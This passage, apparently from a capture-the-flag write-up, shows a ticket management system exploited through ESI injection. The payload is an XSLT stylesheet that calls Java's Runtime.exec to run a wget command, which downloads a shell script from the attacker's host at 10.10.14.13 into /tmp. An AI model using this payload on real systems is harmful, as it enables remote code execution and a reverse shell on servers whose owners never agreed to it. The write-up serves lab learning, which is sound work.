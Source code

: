 After logging in, we see a Ticket Management System:

<figure><img src="../../../.gitbook/assets/image (1753).png" alt=""><figcaption></figcaption></figure>

We can raise tickets and it takes a message from us.

<figure><img src="../../../.gitbook/assets/image (1953).png" alt=""><figcaption></figcaption></figure>

This is where ESI injection can come in handy. Following the PoC earlier, we can use this:

```markup
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[wget http://10.10.14.13/rev -O /tmp/shell.sh]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```